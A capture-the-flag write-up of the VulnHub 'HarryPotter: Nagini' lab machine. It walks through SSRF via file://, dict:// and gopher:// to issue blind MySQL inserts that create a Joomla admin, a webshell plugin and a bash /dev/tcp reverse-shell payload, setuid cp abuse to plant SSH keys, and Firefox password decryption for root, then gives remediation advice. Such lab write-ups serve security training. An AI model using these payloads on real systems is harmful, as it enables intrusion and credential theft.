# HarryPotter Nagini

Difficulty:: #Medium
> Classified according to [Vulhub difficulty page](https://www.vulnhub.com/difficulty/)

## Target data
- Link: [HarryPotter: Nagini](https://www.vulnhub.com/entry/harrypotter-nagini,689/)
- CVSS3 : [AV:N/AC:H/PR:N/UI:N/S:C/C:H/I:H/A:H/E:F/RL:O/RC:C/CR:H/IR:H/AR:H](https://www.first.org/cvss/calculator/3.0#CVSS:3.0/AV:N/AC:H/PR:N/UI:N/S:C/C:H/I:H/A:H/E:F/RL:O/RC:C/CR:H/IR:H/AR:H)
  > **Warning**: I select the CVSS3 score to start to practice, so is very possible that I made a mistake in the selection, so do not trust of that CVSS3.

## Machine Description
*Nagini is the 2nd VM of 3-box HarryPotter VM series in which you need to find 3 horcruxes hidden inside the machine (total 8 horcruxes hidden across 3 VMs of the HarryPotter Series) and ultimately defeat Voldemort.
Tested on Virtualbox.*


## Summary
HarryPotter: Nagini starts with a `/note.txt` endpoint I find with the `feroxbuster` tool, there I identify the `HTTP3 Server` at `https://quic.nagini.hogwarts`. After some research, I find the [0xdf post htb-quick](https://0xdf.gitlab.io/2020/08/29/htb-quick.html), and I see that Google created `QUIC`, and that is a `general-purpose` transport layer protocol, and I can build the `curl` command to handle that protocol, and the instructions are in the [Build quiche and BoringSSL GitHub repository](https://github.com/curl/curl/blob/master/docs/HTTP3.md#quiche-version). After following all steps and fixing multiples errors, I am able to requests to the `HTTP3` service, and I identify the custom endpoint `/internalResourceFeTcher.php` and a clue that exists a `.bak` file of the `Joomla` configuration, after reading about it I identify `configuration.php.bak` file with the `MySQL` data, and in the `internalResourceFeTcher.php` endpoint I identify an `SSRF` vulnerability. With the `SSRF`, I identify the path of the first Horcrux (flag) in the `.htaccess` file. and I also identify the way the `SSRF` works using the `curl_exec()` PHP function. With the help of the post [understandign SSRF](https://fluidattacks.com/blog/understanding-ssrf/) I understand that I have available multiple URL schemes, then I find the post  [SSRF uses gopher to attack MySQL and intranet](https://programming.vip/docs/ssrf-uses-gopher-to-attack-mysql-and-intranet.html) and the tool [mysql_gopher_attack GitHub repository](https://github.com/FoolMitAh/mysql_gopher_attack), and with that, I could run `Blind` SQL queries. With that and understanding [how the `Joomla` database works](https://docs.joomla.org/How_do_you_recover_or_reset_your_admin_password%3F) then I could create a new `admin` user. Once in the `Joomla` account, I could add a [Joomla web shell plugin](https://github.com/p0dalirius/Joomla-webshell-plugin) which one I could get a reverse shell with the `www-data` user. When exploring the server, I identify the `.creds.txt` file in the `snape` home directory, and it contains the `snape`'s `ssh` password in `base64`. With the `snape` shell. I also find the `~/bin/su_cp` binary in the`hermoine` home directory, and it has `setuid` permissions to the `hermoine` user, I verify that this is exactly the `cp` binary found in the `/bin/cp`, then I could create `ssh` keys and use the `su_cp` command to copy them into the `hermoine` `.ssh` directory, and I get the `hermoine` shell and the Horcrux 2 (flag 2). The `hermoine` home, also has the `.mozilla` directory, after research I find how to [steal Firefox passwords](https://systemweakness.com/steal-firefox-passwords-3634a7bbb084)  and I also find the [firefox_decrypt GitHub tool](https://github.com/unode/firefox_decrypt). With that, I find the `root` credentials, and I get the `root` shell and the Horcrux 3 (`root` flag).

1. CWE-200: Exposure of Sensitive Information to an Unauthorized Actor
2. CWE-284: Improper Access Control
3. CWE-912: Hidden Functionality
4. CWE-530: Exposure of Backup File to an Unauthorized Control Sphere
5. CWE-918: Server-Side Request Forgery (SSRF)
6. CWE-257: Storing Passwords in a Recoverable Format
7. CWE-250: Execution with Unnecessary Privileges
8. CWE-521: Weak Password Requirements

#VirtualBox #Nmap #Ghidra #Python  #Python2 #Feroxbuster #Ffuf #vhosts #setuid #gtfobins #PathTraversal #MySQL #Backdoor #Joomla #PHP #CMS #SSRF #HTTP3 #QUIC #quiche #BoringSSL #cargo #rustc #curl_exec #WebShell #RCE #cp #Mozilla #firefox_decrypt

## Enumeration
When I run the target machine in VirtualBox (see the [setup vulnhub machines](../setup-vulnhub.md), then I identify in the target prompt the IP `192.168.2.25`.

 

And I start scanning the target with `nmap`:
```shell
$ nmap -p- -sV -oA scans/nmap-full-tcp-scan 192.168.2.25
...SNIPPED...
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
...SNIPPED...
```
Then I identify 2 open ports, the `OpenSSH 7.9p1` service runs on `22` TCP, and the `Apache httpd 2.4.38` service runs on `80` TCP, and it runs on `Debian 10+deb10u2`

## Normal use case
Given I can access `http://192.168.2.25`, then I can see:



But there is nothing more than an image on the page.

## Dynamic detection
SSRF in a hidden endpoint that is exposed in an HTTP3 service.

Given I can access `http://192.168.2.25`, but it contains nothing useful, then I start a dictionary attack on the endpoints. When I run the `feroxbuster` command with a list of Seclists:
```shell
$ feroxbuster -w directory-list-2.3-small.txt \
> -u http://192.168.2.25 -x php,html,txt,md

...SNIPPED...
200 GET   9l  30w  234c http://192.168.2.25/note.txt
301 GET   9l  28w 313c http://192.168.2.25/joomla/
301 GET   9l  28w 320c http://192.168.2.25/joomla/images
200 GET 160l 428w 6654c http://192.168.2.25/joomla/index.php
...SNIPPED...
```
Then I can see the endpoint `/note.txt`, and many endpoints beginning with `/joomla/`. When I visit `/joomla/`, then I can see a login page, and I realize that `Joomla` is a CMS:



> **Note**: I started this machine before [View2aKill](../10-view2akill-1/README.md), so I didn't know about the `Joomla` CMS. and that's also the reason why in this document I didn't use the `joomscan` tool, I didn't know about it.

When I google `Joomla`. then I find that is an `open-source` `CMS`, and I find a [section in Hacktricks about it](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/joomla)
When I visit the `/note.txt` endpoint, then I get a message from `site_admin`:
```
Hello developers!!
I will be using our new HTTP3 Server at https://quic.nagini.hogwarts for
further communications.
All developers are requested to visit the server regularly for checking
latest announcements.
Regards,
site_amdin
```
And I can see the domain name `https://quic.nagini.hogwarts`, and from the message, I notice that it uses the `HTTP3` server, and I add it to my `/etc/hosts` file:
```shell
$ echo "192.168.2.25 nagini.hogwarts quic.nagini.hogwarts" | \
> sudo tee -a /etc/hosts
```
When I visit the domain `nagini.hogwarts`, and the `quic.nagini.hogwarts`, then I see the same as when I access the `IP` directly. When I start enumerating the `Joomla` site, then I find a file `/joomla/robots.txt` file:



And the `/joomla/administrator/manifests/files/joomla.xml` has metadata, and it says the `Joomla version is 3.9.25`:



But I can not find anything useful, when I google `Joomla 3.9.25 exploit`, then I find multiples vulnerabilities:



But any of them allow me to escalate privileges, and I decided to keep track of the file `/note.txt`. When I start to read about HTTP3, then I find  the [0xdf post htb-quick](https://0xdf.gitlab.io/2020/08/29/htb-quick.html), and I see that Google created `QUIC`, and that is a `general-purpose` transport layer protocol, and I can build the `curl` command to handle that protocol, and the instructions are in the [Build quiche and BoringSSL GitHub repository](https://github.com/curl/curl/blob/master/docs/HTTP3.md#quiche-version)
And it has two main steps:
```
1. Build quiche and BoringSSL
2. Build curl
```
When I start building `quiche` and `BoringSSL`:
```
$ git clone --recursive https://github.com/cloudflare/quiche && cd quiche
```
And I use the `cargo` command:
```
$ cargo build --package quiche --release \
> --features ffi,pkg-config-meta,qlog

error: --features is not allowed in the root of a virtual workspace
note: while this was previously accepted, it didn't do anything
```
Then I get an error, when I google it, then I found a thread about it at [features not working with virtual workspace](https://users.rust-lang.org/t/features-not-working-with-virtual-workspace/16910), and it says that if I add `-Z package-features` it works. When I try again with that recommendation:
```shell
$ cargo build --package quiche --release -Z package-features \
> --features ffi,pkg-config-meta,qlog

error: failed to parse manifest at \
`... src/github.com-1ecc6299db9ec823/hashbrown-0.12.3/Cargo.toml`
Caused by:
failed to parse the `edition` key
Caused by:
this version of Cargo is older than the `2021` edition, and only supports
`2015` and `2018` editions.
```
Then that is a version problem. When I try to update the `cargo` package:
```shell
$ sudo apt install cargo
```
Then it tells me that I currently have the newest version `(0.47.0-3+b1)`. When I check out the releases in the [Cargo GitHub repository](https://github.com/rust-lang/cargo), then I see the current `Cargo` version is `0.67.1`, and version `0.47.0` is from 2020. When I read the installation process:
```
Cargo is distributed by default with Rust, so if you've got rustc
installed locally you probably also have cargo installed locally.
```
Then I can see that I need to update my `rustc` command. When I google `rustc install`. then I find [rust-lang installation documentation](https://www.rust-lang.org/tools/install). When I follow the steps, and I first remove my current `rustc` package:
```shell
$ sudo apt remove rustc
```
And I use the `curl` command that I find in the installation process:
```shell
$ curl --proto '=https' --tlsv1.2 -sSf https://sh.rustup.rs | sh
```
And I use the `cargo` command again:
```shell
$ cargo build --package quiche --release
> --features ffi,pkg-config-meta,qlog

...SNIPPED...
error: failed to run custom build command for `quiche v0.16.0
(./harrypotter-nagini/quiche/quiche)`
...
is `cmake` not installed?
...SNIPPED...
```
Then I get a new error message, when I go to the `Debian` packages page to [download `cmake`](http://ftp.us.debian.org/debian/pool/main/c/cmake/cmake_3.18.4-2+deb11u1_amd64.deb), and the dependencies that `cmake` requires are:
```
cmake-data
libjsoncpp24
librhash0
```
And I install them all, then I was finally able to run the `upload build` command successfully. When I continue to `build quiche` and `BoringSSL`:
```shell
$ mkdir quiche/deps/boringssl/src/lib && \
> ln -vnf $(find target/release -name libcrypto.a -o -name libssl.a) \
> quiche/deps/boringssl/src/lib/
```
Then I continue with the build of the `curl` command. When I follow the installation steps, and I clone the [curl GitHub repository](https://github.com/curl/curl):
```shell
$ git clone https://github.com/curl/curl && cd curl
```
And I run the following command:
```shell
$ autoreconf -fi
```
And I configure it and use the `make` command:
```shell
$ ./configure LDFLAGS="-Wl,-rpath,$PWD/../quiche/target/release" \
> --with-openssl=$PWD/../quiche/quiche/deps/boringssl/src \
> --with-quiche=$PWD/../quiche/target/release && sudo make
```
Then the installation asks me for some `deb` packages, and in total I have downloaded and installed the following packages:
```
libcurl4_7.87.0-1_amd64.deb
libc6
libldap-2.5-0
libnghttp2-14
libssl3
libzstd1
```
And with that, the installation works, when I use the `curl` command with the `--http3` switch:
```shell
$ curl --http3 https://quic.nagini.hogwarts
curl: (60) SSL certificate problem: self-signed certificate
More details here: https://curl.se/docs/sslcerts.html
...SNIPPED...
```
Then I get an error, when I google that error, and I find on [StackOverflow](https://stackoverflow.com/questions/18964175/how-to-fix-curl-60-ssl-certificate-invalid-certificate-chain) that I have to use the `-k` option, and with that, the `curl` command ignores the insecure certificate:
```shell
$ curl -k --http3 https://quic.nagini.hogwarts/
...SNIPPED...
Greetings Developers!!
I am having two announcements that I need to share with you:
1. We no longer require functionality at /internalResourceFeTcher.php in
our main production servers. So I will be removing the same by this week.
2. All developers are requested not to put any configuration's backup file
(.bak) in main production servers as they are readable by everyone.
```
Then the `http3` response text says there is a `.bak` configuration file, and it also talks about the `/internalResourceFeTcher.php` endpoint.

When I read the source code of the `Joomla 3.9.25`, and I read the file `bin/keychain.php`, then I find that it imports a configuration file:



And it is called `configuration.php`. When I try with `configuration.php.bak`:
```shell
$ curl -s "http://192.168.2.25/joomla/configuration.php.bak"
```
Then it works:



And it contains the `MySQL` connection data, and I see the user `goblin`, and the database name `joomla`, with the table prefix `joomla_`, and I leave that data to use later. When I access `/internalResourceFeTcher.php`, then I can see:



And after some testing, I realize that I can put any `URL`, and it will make the `GET` request and write the response on the page. When I check if I can reach the target `localhost`, and I test it with the file `configuration.php.bak`, then it works:



And with that, I can confirm that there is an `SSRF` vulnerability.

## Exploitation
Path traversal and create an admin user in `MySQL`, and escalate privileges.

Given I find a domain name that uses the `HTTP3` protocol, and I can access `https://quic.nagini.hogwarts`, and it contains the hidden endpoint `internalResourceFeTcher.php`, and it is vulnerable to `server-side request forgery`, and it allows me to make `GET` requests to the target `localhost`, then I will start exploring what I can do with the `SSRF`. When I check the [SSRF section in the PayloadsAllTheThings repository](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery#ssrf-exploitation-via-url-scheme):



And maybe I could perform a path traversal with the `file://` scheme, when I test it with the `/etc/passwd` file:
```shell
$ curl \
> "http://192.168.2.25/internalResourceFeTcher.php?url=file:///etc/passwd"
```
Then I can see the file:



And I identify the users `snape`, `hermoine`, and `ron`. When I use the path traversal to check how the requests are made:
```shell
$ curl "http://192.168.2.25/internalResourceFeTcher.php?url=
> file:///var/www/html/internalResourceFeTcher.php"
```
Then I can see on line `37`:
```php
37 $url=$_GET['url'];
```
And the `URL` of the form is stored in the variable `$url`. When I check from lines `51` to `58`:
```php
51 $ch = curl_init();
52 curl_setopt($ch, CURLOPT_URL, $url);
53 curl_setopt($ch, CURLOPT_CONNECTTIMEOUT, 0);
54 curl_setopt($ch, CURLOPT_TIMEOUT, 10);
55 curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
56
57 $exec = curl_exec($ch);
58 echo $exec;
```
Then I can see that the `curl_exec` function makes the `GET` request, when I google `curl_exec PHP RCE`, then I find [php curl_exec url is controlled by user](https://www.acunetix.com/vulnerabilities/web/php-curl_exec-url-is-controlled-by-user/):



And I identify a possible `CVE`, when I google `CVE-2009-0037`, then I find [a curl post about CVE-2009-0037](https://curl.se/docs/CVE-2009-0037.html), and I can read:
```
Affected versions: curl and libcurl 5.11(!) to and including 7.19.3
```
But right now I do not know the `libcurl` version that runs on the target. and I think on see what default server files I can get.

When I use the `ffuf` command with a list of Seclists:
```shell
$ ffuf -w LFI-gracefulsecurity-linux.txt:FUZZ -u \
> "http://192.168.2.25/internalResourceFeTcher.php?url=file:///FUZZ" \
> -fs 362
```
Then I find some default files:



When I go through all of them, then I can not find any useful. When I try to get the `.htaccess` from the webroot:
```shell
$ curl -s "http://192.168.2.25/internalResourceFeTcher.php?url=
> file:///var/www/html/.htaccess" | grep "</body>" -A1000

<files horcrux1.txt>
...SNIPPED...
```
Then I identify the name of the file that contains the first flag. When I use the path traversal to get that file:
```shell
$ curl -s "http://192.168.2.25/internalResourceFeTcher.php?url=
> file:///var/www/html/horcrux1.txt" | grep "</body>" -A1000
```
Then I get the first flag `horcrux1.txt`:



And I keep exploring the `SSRF` with the path traversal, but I can not find anything useful, I was stuck, and I decided to leave the machine, and after a few weeks, I decided to take it again, and all the time I was thinking about what I have so far. When I google `user SSRF to connect to MySQL`, then I find the post [understandign SSRF](https://fluidattacks.com/blog/understanding-ssrf/), and I see that I can use the `dict://` URL schema.

When I open a listener with the `nc` command:
```shell
$ nc -lvnp 1234
```
And I use the following `curl` command:
```shell
$ curl -s \"http://192.168.2.25/internalResourceFeTcher.php?url=
> dict://192.168.2.31:1234/test"
```
And I check the terminal where I open the listener, then I can see:
```shell
...SNIPPED...
CLIENT libcurl 7.64.0
test
QUIT
```
And I can see the `libcurl 7.64.0`, and that version is not vulnerable to `CVE-2009-0037`, but it was helpful, now I know I can use multiple `URL` schemes, and maybe there is a `URL` scheme that will allow me to connect to `MySQL`. When I google `curl URL scheme supported`, then I find [the curl manpage](https://curl.se/docs/manpage.html). When I read and search for some protocols that look promising, then I identify the `gopher` protocol, and that allows me to communicate with any TCP port. When I google `GOPHER protocol to connect MySQL`, then I find the post [SSRF uses gopher to attack mysql and intranet](https://programming.vip/docs/ssrf-uses-gopher-to-attack-mysql-and-intranet.html), and the way it works is to use the raw bytes that are sent over TCP, and the author also mentions the following from the [mysql_gopher_attack GitHub repository](https://github.com/FoolMitAh/mysql_gopher_attack). When I download the `exploit.py` script:
```shell
$ wget "https://raw.githubusercontent.com/FoolMitAh/mysql_gopher_attack/
> master/exploit.py"
```
When I test it with a common query, and the `MySQL` data I found in the `configuration.php` file:
```shell
$ python2 exploit.py -u goblin -p "" -d "joomla" -P "select now()" -v
...SNIPPED...
Payload:
gopher://127.0.0.1:3306/A/%00%00%01O%B7%00%00%00%00%00%01%21%00%00%00%00
%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00goblin%00%00
joomla%00%0D%00%00%00%03select%20now%28%29%00%00%00%00
```
Then I need to `URL-encoded` it because I have to send it with a request, and I use the page [urlencoder](https://www.urlencoder.io/) to do it, when I test it with the `SSRF`, then it returns nothing, but after some testing, I realize it takes a while to respond, and if I change the user or the table name, the response is instant, and that made me think that I handled `blind SQL queries`, and I decided to try to insert a new administrator account. When I google `Joomla create user admins from database`, then I find the [forum threat](https://forum.joomla.org/viewtopic.php?t=690433), and there they mention the [`Joomla` documentation](https://docs.joomla.org/How_do_you_recover_or_reset_your_admin_password%3F). When I check it, then I see the detailed steps to insert a new record:



When I use the `exploit.py` script with the following query:
```shell
$ python2 exploit.py -u goblin -p "" -d "joomla" -P "INSERT INTO
> `joomla_users` (`name`, `username`, `password`, `params`,
> `registerDate`, `lastvisitDate`, `lastResetTime`) VALUES
> ('Administrator2', 'admin2',
> 'd2064d358136996bd22421584a7cb33e:trd7TvKHx6dMeoMmBVxYmg0vuXEA4199', '',
> NOW(), NOW(), NOW());" -v
```
And I `URL-encoded` the payload, and I use the `SSRF` with that payload, and I try to access the `Joomla` site with the credentials `admin2:secret`, then I get the error message:



And that means the insert query works, but the user `admin2` does not have the admin access. When I do it again, but I decided to control the `id` file of the `MySQL` table, and that way it would be easier to make the second insert.

When I create a new user with the following `MySQL` query, and I use a random id `25`:
```shell
$ python2 exploit.py -u goblin -p "" -d "joomla" -P "INSERT INTO
> `joomla_users` (`id`, `name`, `username`, `passw
> ord`, `params`, `registerDate`, `lastvisitDate`, `lastResetTime`)VALUES
> (25, 'Administrator5', 'admin5', 'd2064d3581369
> 96bd22421584a7cb33e:trd7TvKHx6dMeoMmBVxYmg0vuXEA4199', '', NOW(), NOW(),
> NOW());" -v
```
And I `URL-encoded` the payload, and I send it with the `SSRF`, and after that, I make the payload to give the admin permissions:
```shell
$ python2 exploit.py -u goblin -p "" -d "joomla" -P "INSERT INTO
> `joomla_user_usergroup_map` (`user_id`,`group_id`) VALUES (25,'8');" -v
```
And I `URL-encoded` it, and I send it with the `SSRF`, and because the URL is so big I can't write it directly here, but it can be seen in:



When I the Joomla site with the credentials `admin5:secret`, Then it works:



When I google `Joomla RCE extension`, then I find  [Joomla webshell plugin](https://github.com/p0dalirius/Joomla-webshell-plugin), when I follow the instructions, and I use the `git clone` command:
```shell
$ git clone https://github.com/p0dalirius/Joomla-webshell-plugin.gi
```
And I use the `make` command:
```shell
$ cd Joomla-webshell-plugin/ && make
...SNIPPED...
[+] Saved to ./dist/joomla-webshell-plugin-1.1.0.zip
```
When I upload that `zip` file:



Then I can see the message:
```
...SNIPPED...
Installation of the module was successful.
...
```
When I use the `curl` command:
```shell
$ curl -X POST \
> 'http://192.168.2.25/joomla/modules/mod_webshell/mod_webshell.php' \
> --data "action=exec&cmd=id"

{"stdout":"uid=33(www-data) gid=33(www-data) groups=33(www-data)\n",
"stderr":"","exec":"id"}
```
Then it works, I can perform an RCE, when I structure the following reverse shell payload:
```shell
bash -c 'bash -i >& /dev/tcp/192.168.2.31/1234 0>&1'
```
And I open a listener with the `nc` command:
```shell
$ nc -lvnp 1234
```
And I use the `curl` command:
```shell
$ curl -X POST \
> 'http://192.168.2.25/joomla/modules/mod_webshell/mod_webshell.php' \
> --data "action=exec&cmd=bash%20-c%20'bash%20-i%20>%26%20/dev/tcp/
> 192.168.2.31/1234%200>%261'"
```
Then it works:



And I get the shell of the user `www-data`, and I start exploring the server.

## Lateral movement

When I check the home directory of `hermoine`:
```shell
$ www-data@Nagini:/home/hermoine$ ls -la
drwx------ 3 hermoine hermoine 4096 Apr  4  2021 .gnupg
drwx------ 5 hermoine hermoine 4096 Jun  1  2019 .mozilla
drwxr-xr-x 2 hermoine hermoine 4096 Apr  4  2021 .ssh
drwxr-xr-x 2 hermoine hermoine 4096 Apr  4  2021 bin
-r--r----- 1 hermoine hermoine   75 Apr  4  2021 horcrux2.txt
```
Then I can not read the `horcrux2.txt` at least I get the `hermoine`'s shell, when I check the `.ssh` directory, then it is empty. When I check the directory `/home/hermoine/bin`, then I find:
```shell
-rwsr-xr-x 1 hermoine hermoine 146880 Apr  4  2021 su_cp
```
And the `su_cp` file has `setuid` permissions, When I use the `file` command:
```
$ www-data@Nagini:/home/hermoine$ file bin/su_cp
bin/su_cp: setuid ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV),
dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux
3.2.0, BuildID[sha1]=2ba569cc1c533b368ab10bb200738549c6c8de9e, stripped
```
Then I will analyze it, when I copy it to `/joomla/tmp` in the webroot:
```shell
$ www-data@Nagini:/home/hermoine$ cp bin/su_cp /var/www/html/joomla/tmp/
```
And I use the `wget` command:
```shell
$ wget "http://192.168.2.25/joomla/tmp/su_cp"
```
Then I get the `su_cp` binary in my local machine, when I use `Ghidra` to decompile it, then I can not see a `main` function, then I look for the `entry` function. When I read line 8 of the `entry` function:
```C
8 __libc_start_main(FUN_001049b0,in_stack_00000000,&stack0x00000008,
FUN_0011a530,FUN_0011a590
```
Then I can see the call to the function `FUN_001049b0`. When I check that function, then I find:



And that makes me think that maybe the binary is the same binary `/bin/cp`. When I check it using the `md5sum` command:
```shell
$ www-data@Nagini:/home/hermoine$ md5sum bin/su_cp /bin/cp
d38d5be99452fb23cce11fc7756c1594  bin/su_cp
d38d5be99452fb23cce11fc7756c1594  /bin/cp
```
Then I can confirm that it is the same binary.

When I search for [`cp` in gtfobins](https://gtfobins.github.io/gtfobins/cp/#suid), and I see I could use the `--no-preserve=all` options to ignore the permissions, but I can only read or write files, and I will keep it in mind if I need it later.

When I check the `snape` directory, then I find:
```shell
...SNIPPED...
-rw-r--r-- 1 snape snape   17 Apr  4  2021 .creds.txt
drwx------ 3 snape snape 4096 Apr  4  2021 .gnupg
-rw-r--r-- 1 snape snape  807 Apr  3  2021 .profile
drwx------ 2 snape snape 4096 Apr  4  2021 .ssh
```
When I read the file `.creds.txt`, then I can see:
```
TG92ZUBsaWxseQ==
```
When I use the `base64` command:
```shell
$ echo -n "TG92ZUBsaWxseQ==" | base64 -d
Love@lilly
```
Then I use the `ssh` command, and the credentials `snape:Love@lilly`:
```shell
$ sshpass -p "Love@lilly" ssh snape@192.168.2.25
```
ant it works:



## Lateral movement 2

And after playing around with the `su_cp` binary, then I realized that I can store a public ssh key in `.ssh` directory, and with that, I could make an `SSH` connection with the user hermoine. When I generate the `ssh` keys on my local machine:
```shell
$ ssh-keygen -t rsa -b 4096 -f ./id_rsa_hermoine -P "" \
> -C "hermoine@Nagini"
```
And I copy the file `id_rsa_hermoine.pub` to the target machine, and I store it in a file called `/tmp/authorized_keys`, and I use the `su_cp` binary:
```shell
$ snape@Nagini:/home/hermoine$ ./bin/su_cp /tmp/authorized_keys .ssh/
```
And I use the `ssh` command from my local machine:
```shell
$ ssh -i id_rsa_hermoine hermoine@192.168.2.25
```
Then it works, and I get the shell of the user `hermoine`, and I get the `hermoine`'s flag `horcrux2.txt`:



## Privilege escalation

And I realize that I could do it also with the user `www-data`, And I mean I do not need `snape` user credentials, but it was better to use an `SSH` connection than a reverse shell. When I start exploring the server with the user hermoine, then I think of two suspicious directories, and the first one is `/opt/nginx-1.16.1`, and the second one is `/home/hermoine/.mozilla`. When I spend time exploring the `Nginx` directory, then I can not find anything useful, and I decided to focus on the `.mozilla` directory
When I google `".mozilla" directory pentesting`, then I find the [steal firefox passwords](https://systemweakness.com/steal-firefox-passwords-3634a7bbb084) post, and I identify the [firefox_decrypt Github tool](https://github.com/unode/firefox_decrypt).

When I use the `tar` command:
```shell
$ hermoine@Nagini:~$ tar -zcvf mozilla.tar.gz .mozilla/
```
And I copy the `mozilla.tar.gz` directory to my local machine:
```shell
$ scp -i id_rsa_hermoine \
> hermoine@192.168.2.25:/home/hermoine/mozilla.tar.gz .
```
And I extract the directory:
```shell
$ tar xvzf mozilla.tar.gz
```
And I clone the `firefox_decrypt` repository:
```shell
$ git clone https://github.com/unode/firefox_decrypt
```
And I read the documentation, and I run the script with the path to the `firefox` profile directory:
```shell
$ python3 firefox_decrypt.py ../mozilla/firefox
Website: http://nagini.hogwarts
Username: 'root'
Password: '@Alohomora#123'
```
Then I find the `root` credentials, when I use the `ssh` command:
```shell
$ sshpass -p "@Alohomora#123" ssh root@192.168.2.25
```
Then it works, and I get the `root` shell, and I get the root flag `horcrux3.txt`:



## Remediation

Given I find technical information in the webroot, and that allows me to identify a domain in the `HTTP3` service, and I can access that domain without any credentials, and I find a `MySQL` configuration backup file, and I also find a hidden endpoint, and that allows me to perform an `SSRF` attack, and it also allows me to perform a path traversal attack, and I was also able to communicate with the `MySQL` service, and I could create a new admin account, and with that, I could perform an `RCE` on the `Joomla` site, and I find a user's server access credentials encoded with `base64`,  and I find a binary file with `setuid` privileges, and I find credentials stored in `Firefox`, and those credentials are reused on the server, then remove all technical information to unauthorized users, and do not store backups files in webroot, and remove backdoors or functionality that does not belong to the service, and do not store passwords in a recoverable format
And check files for unnecessary permissions, and do not store critical credentials in browsers, and do not reuse credentials, then with that, it may not be possible to get the `root`'s shell.